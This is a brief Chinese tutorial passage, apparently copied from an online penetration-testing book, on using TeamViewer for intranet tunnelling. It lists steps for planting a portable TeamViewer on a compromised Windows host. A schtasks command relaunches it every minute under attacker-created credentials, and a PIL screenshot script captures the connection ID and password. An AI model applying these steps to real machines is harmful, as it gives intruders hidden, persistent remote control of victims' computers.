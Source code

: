 # Teamviewer 内网穿透（二）

> 原文：[http://book.iwonder.run/内网渗透/内网穿透/teamviewer/2.html](http://book.iwonder.run/内网渗透/内网穿透/teamviewer/2.html)

上传一个单文件版本的 teamviewer

再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV 的路径  /ru 创建的用户名 /rp 创建的密码 
```

使用 PIL 截图获取连接 ID 密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png') 
```

